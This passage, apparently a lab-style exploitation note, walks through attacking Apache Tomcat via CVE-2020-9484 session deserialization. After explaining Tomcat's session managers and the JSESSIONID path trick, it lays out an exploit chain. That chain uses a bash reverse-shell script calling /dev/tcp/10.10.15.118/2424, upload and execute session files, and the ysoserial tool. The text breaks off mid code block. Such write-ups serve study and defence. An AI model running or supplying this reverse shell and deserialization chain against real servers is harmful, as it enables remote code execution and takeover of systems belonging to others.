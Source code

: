 

---

### Apache Tomcat 9.0.27 vulnerability CVE - 2020 - 9484


1. Tomcat uses the word `“Manager”` to describe the component that does session management.
   - Sessions are used to preserve state between client requests,
   - Tomcat provides two implementations that can be used:
     - `org.apache.catalina.session.StandardManager` (default)
       - keep sessions in memory.
       - If tomcat is gracefully closed, it will store the sessions in a serialized object on disk (named “SESSIONS.ser” by default).

     - `org.apache.catalina.session.PersistentManager`
       - does the same thing, but with a little extra:
       - swapping out idle sessions.
       - If a session has been idle for x seconds, it will be swapped out to disk.
       - to reduce memory usage.

2. Set the JESSIONID cookie to the path where the file isuploaded
   - if the manager is `StandardManager`
     - it check the session on memory
     - if not ecist, it check on the disk
   - if the manager is `PersistentManager`
     - if the file exists, it will deserializa it and parse the session information from it


---

### use ysoserial to serialize the file


play1.sh (reverse shell code)

uploadfile.session (upload the reverse shell code and store ie in /tmp/targetplay.sh)

executefile.session (execute the targetplay.sh)



1. create the playload

    ```bash
    vim play1.sh
    # !/bin/bash
    bash -c "bash -i >& /dev/tcp/10.10.15.118(your ip)/2424 0>&1"
    ```

2. download the ysoserial source code
   - [使用github上的ysoserial工具](https://github.com/frohoff/ysoserial)
   - download the latest jar from [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

    ```bash
    git clone https://github.com/frohoff/ysoserial.git
